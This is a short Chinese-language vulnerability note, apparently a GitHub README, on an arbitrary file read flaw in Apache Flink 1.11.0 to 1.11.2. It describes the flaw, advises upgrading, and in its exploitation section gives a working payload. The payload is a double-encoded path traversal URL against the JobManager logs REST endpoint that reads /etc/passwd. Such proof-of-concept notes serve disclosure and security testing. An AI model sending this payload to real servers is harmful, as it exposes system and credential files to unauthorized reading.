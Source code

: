 ### 一 漏洞描述
flink任意文件读取

影响范围：Flink 1.11.0、1.11.1、1.11.2

Flink是Apache基金会的一款开源的分布式流数据处理引擎。  
该漏洞允许攻击者通过JobManager进程的REST接口读取本地文件系统上的任意文件。

### 二 漏洞利用
```angular2html
http://192.168.2.129:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

### 三 漏洞修复
升级新版本
